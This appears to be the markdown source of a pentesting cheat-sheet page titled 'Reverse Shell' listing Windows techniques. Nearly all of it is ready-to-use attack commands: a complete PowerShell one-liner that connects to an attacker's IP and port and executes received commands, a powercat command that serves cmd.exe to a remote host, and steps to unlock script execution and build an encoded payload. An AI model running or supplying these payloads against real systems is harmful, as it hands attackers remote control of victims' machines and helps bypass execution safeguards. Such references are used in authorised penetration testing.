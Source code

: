 ```yaml
---
layout: post
title: Reverse Shell
tags: [Linux, Windows,]
description: Ways to get a reverse shell
---
```


## Windows
### PowerShell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

### Powercat
```powershell
powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Encripted payload
Enable script execution
```powershell
> Set-ExecutionPolicy Unrestricted
> powercat -c <IP> -p <PORT> -e cmd.exe -ge > reverseshell.ps1
> powershell -E AaQBtAEUAbgBkACgAIgBgAHIAI[...]
```


